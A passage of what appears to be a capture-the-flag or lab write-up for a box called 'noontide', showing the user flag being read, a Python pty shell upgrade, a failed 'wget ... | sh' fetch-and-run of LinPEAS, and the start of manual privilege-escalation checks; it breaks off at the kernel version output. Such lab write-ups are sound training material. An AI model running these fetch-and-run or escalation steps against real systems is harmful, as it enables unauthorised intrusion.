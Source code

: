 ```
ls -la /home/server | grep -e local -e txt -e flag
-rw-r--r-- 1 server server   33 Mar  3 10:56 local.txt
cat /home/server/local.txt
0a6f84095ec1b101471dfab5e47a6d59
```

We aren't done yet though - we want root.

## Privilege Escalation

> We span a shell cause rawdoggin' it ain't fun:
> 
> ```
> which python3
/usr/bin/python3
>
python3 -c 'import pty; pty.spawn("/bin/bash")'
server@noontide:~/irc/Unreal3.2$ 
``` 

6) Tried to run LinPEAS, however it seems like nothing resolves in here... 

```
server@noontide:~/irc/Unreal3.2$ wget -O- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
--2024-03-03 13:26:57--  https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
Resolving github.com (github.com)... 
failed: Temporary failure in name resolution.
wget: unable to resolve host address ‘github.com’
```
```
server@noontide:~/irc/Unreal3.2$ ping google.com
ping google.com
ping: google.com: Temporary failure in name resolution
```

Tried downloading by IP ignoring SSL, however the script itself downloads other things using hostnames...

7) Trying to look for a vector manually, roughly following the checks in [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation).

- Exploitable Kernel?

<details>
<summary>`cat /proc/version`</summary>

```
server@noontide:~/irc/Unreal3.2$ cat /proc/version
cat /proc/version
Linux version 4.19.0-10-amd64 (debian-kernel@lists.debian.org) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Debian 4.19.132-1 (2020-07-24)
